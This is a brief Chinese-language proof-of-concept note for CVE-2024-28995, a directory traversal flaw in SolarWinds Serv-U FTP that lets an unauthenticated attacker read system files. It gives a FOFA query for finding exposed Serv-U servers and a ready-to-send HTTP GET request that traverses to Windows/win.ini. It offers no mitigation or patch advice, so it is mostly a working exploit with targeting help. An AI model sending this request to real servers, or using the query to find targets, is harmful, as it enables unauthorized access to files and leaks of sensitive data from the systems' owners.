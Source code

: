 ## SolarWinds-Serv-U目录遍历漏洞(CVE-2024-28995)

SolarWinds 是一家提供广泛的 IT 管理和网络管理软件解决方案的公司,SolarWinds 的产品被设计用于监控和管理网络设备、服务器、应用程序和网络流量等,Serv-U 是 SolarWinds 提供的一款 FTP（文件传输协议）服务器软件，它允许用户在 Windows 、Linux 系统上设置和管理 FTP 服务,Serv-U 提供了多种功能，以确保文件传输的安全性、效率和灵活性。

CVE-2024-28995 SolarWinds Serv-U FTP目录遍历文件读取漏洞，攻击者无需登陆即可构造恶意请求读取系统上文件，造成敏感信息泄漏。

## fofa

```
app="SolarWinds-Serv-U-FTP"
```

## poc

```
GET /?InternalDir=/../../../../Windows/&InternalFile=win.ini HTTP/1.1
Host: 
```

![image-20240614211748043](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406142117114.png)